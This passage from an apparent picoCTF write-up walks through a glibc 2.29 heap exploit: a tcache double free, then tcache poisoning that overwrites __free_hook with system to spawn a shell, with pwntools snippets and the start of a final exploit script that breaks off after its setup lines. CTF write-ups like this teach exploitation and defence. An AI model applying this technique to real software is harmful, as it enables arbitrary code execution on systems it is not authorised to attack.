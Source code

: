 Remember the chunk that went into the 0x180 tcache bin? It is the same chunk, only now its size is actually 0x100. We reallocate it back out of the 0x180 tcache bin, and immediately free it. What happens now is that the same chunk is in the 0xf0 tcache bin twice, as if we had double freed it.
```python
# Get back the 0x100 chunk out of the 0x180 tcache bin
add(0x180, 'C'*0x180) # Chunk B

# Since tcache_get will null out the key, we can free it immediately
free(3) # Goes into 0xf0 tcache bin

# Now: tcache[0x100] -> Chunk B <- Chunk B
```

After that, it's the usual tcache poisoning attack to get a chunk on `__free_hook` and overwrite it with the address to `system`:
```python
# We do the usual tcache poisoning attack

# Get Chunk B from 0xf0 tcache bin and change it's FD to __free_hook
add(0xf0, p64(free_hook) + 'D'*0xe8)

# Allocates chunk B again
add(0xf0, 'E'*0xf0)

# Allocates chunk on __free_hook, change it to system
add(0xf0, p64(system) + 'F'*0xe8)
```

Now, remember when we changed chunk 0's first 8 bytes to `'/bin/sh\x00'`? If we call `free(0)`, it will actually call `free(ptr_to_chunk_0)`, which means it will now also call `((*)__free_hook)(ptr_to_chunk_0, ...)`.

Since we changed `__free_hook` to point to `system`, it will actually call `system(ptr_to_chunk_0)`, and if you imagine `ptr_to_chunk_0` to be a `char *`, it will call `system("/bin/sh\x00")`, giving us a shell:
```python
# Call free on the chunk with /bin/sh\x00 in it
# This will then call free('/bin/sh\x00') which calls system('/bin/sh\x00')
free(0)

p.interactive()
```

And so we use exactly 7 chunks to do the exploit. Perfect limit.

### Final exploit:

```python
#!/usr/bin/env python2

from pwn import *

context.arch = 'amd64'
context.terminal = ['tmux', 'new-window']

BINARY = './zero_to_hero'
HOST, PORT = '2019shell1.picoctf.com', 49929

elf = ELF(BINARY)
libc = ELF('./libc-2.29.so')

def debug(breakpoints):
    script = ""
    for bp in breakpoints:
        script += "b *0x%x\n"%(bp)
    gdb.attach(p,gdbscript=script)

```